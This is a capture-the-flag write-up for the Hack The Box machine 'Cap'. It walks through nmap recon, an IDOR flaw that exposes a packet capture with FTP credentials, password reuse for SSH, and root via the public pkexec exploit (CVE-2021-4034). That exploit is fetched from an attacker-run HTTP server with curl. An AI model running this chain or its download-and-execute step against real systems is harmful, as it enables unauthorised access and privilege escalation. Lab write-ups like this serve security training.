








### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```



As we can see, port `21` is opened, with `ftp` running on it, port `22` is opened with `ssh` on it, and port `80` with http server.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see for known vulnerabilities for the `ftp` version, using `searchsploit`. nothing interesting except `DoS` is popping up:
```bash
┌──(agonen㉿kali)-[~/htb/Cap]
└─$ searchsploit vsftpd 3.0.3
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                    | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploit IDOR to achieve nathan's password ftp server

inside the website, we can navigate to "Security Snapshot":



This is the url that we are in we entered, http://10.10.10.245/data/10, when we press the download button the file `pcap.10` is being downloaded.

We can try to browse to this url instead, http://10.10.10.245/data/0, and exploit the `IDOR` vulnerability, and by this way getting `pcap.0`, which is capture file of other stream.

I used wireshark to analyze the `pcap` file, inside the 3th TCP stream I found the FTP login:



So, the username for ftp is `nathan` and the password `Buck3tH4TF0RM3!`.



### Get user flag from ftp server

I saw there are multiple files inside this ftp server, so I used this command to get all files recursively. note, the character `\` isn't part of the password, but it's necessary, because `!` is a special character and i must escape this character.
```bash
wget -m ftp://nathan:Buck3tH4TF0RM3\!@$target
```



and now, we can achieve the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/10.10.10.245]
└─$ cat user.txt    
da53f416127ecd4325c068bbc1a9c3e5
```

### Privilege Escalation to Root

we try to use the password of `nathan` for `ftp` to check if it works too for the `ssh` service, and surprisingly, it works!
```bash
ssh nathan@$target
```


let's start our journey for escalation, first we'll go to `sudo -l`:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

Then, we'll go to use our `linpeas.sh` (we can start from this directly, it'll show us our sudo permissions anyway)



As we can see, it might be vulnerable to `CVE-2021-4034` and to `CVE-2022-2588`.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                              
Sudo version 1.8.31                                                                                                                                                                          

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                  

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```

I googled for exploit, and find this github repo https://github.com/kimusan/pkwner.

Then, I simply downloaded and set up the http server on my local machine:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ ls
pkwner.py  pkwner.sh  README.md  screenshot.png  screenshot-py.gif  screenshot-sh.gif
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.10.245 - - [22/Oct/2025 16:52:40] "GET /pkwner.sh HTTP/1.1" 200 -
```

and on the remote machine:
```bash
curl http://10.10.16.49:8081/pkwner.sh -o /tmp/pkwner.sh
```

now, we just need to execute the exploit:



```bash
root@cap:/home/nathan# cat /root/root.txt
af5909d5b969291c6afd244f822b7bdd
```


**User Flag:*****`da53f416127ecd4325c068bbc1a9c3e5`***

**Root Flag:*****`af5909d5b969291c6afd244f822b7bdd`***
